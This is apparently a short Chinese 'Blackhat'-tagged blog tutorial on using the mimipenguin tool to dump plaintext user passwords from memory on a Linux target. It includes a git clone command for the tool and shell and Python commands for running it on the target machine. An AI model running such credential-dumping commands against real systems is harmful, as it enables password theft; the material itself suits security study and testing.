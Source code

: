 ```yaml
---
title: 使用mimipenguin工具在Linux系统中dump出明文密码
name: dump-password-linux
date: 2017-11-12
tags: [mimipenguin]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# 使用mimipenguin工具在Linux系统中dump出明文密码

## 1. 原理

**mimipenguin** 使用内存计算的技术，读取内存中的凭证信息，linux系统在运行中会将用户名和密码以明文的方式保存在内存中。

## 3. 下载

```shell
git clone https://github.com/huntergregal/mimipenguin.git
```

## 4. 使用

在目标机器直接运行`mimipenguin`命令，如下：

```shell
# shell
chmod u+x mimipenguin.py
./mimipenguin.sh

# python
python3 ./mimipenguin.py
```

